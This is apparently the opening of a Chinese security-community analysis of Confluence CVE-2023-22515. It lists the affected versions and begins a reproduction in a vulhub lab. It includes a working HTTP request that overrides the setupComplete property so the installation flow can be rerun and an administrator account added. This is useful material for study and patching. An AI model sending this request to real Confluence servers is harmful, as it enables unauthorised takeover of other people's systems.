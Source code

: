 

# Confluence CVE-2023-22515 漏洞分析 - 先知社区

Confluence CVE-2023-22515 漏洞分析

- - -

## 简介

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

影响版本

Confluence Data Center 和 Confluence Server

-   8.0.0 - - 8.0.4
-   8.1.0 - - 8.1.4
-   8.2.0 - - 8.2.3
-   8.3.0 - - 8.3.2
-   8.4.0 - - 8.4.2
-   8.5.0 - - 8.5.1

## 漏洞复现

使用vulhub的漏洞环境

[https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

0x01 覆盖 `bootstrapStatusProvider.applicationConfig.setupComplete`属性

```plain
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
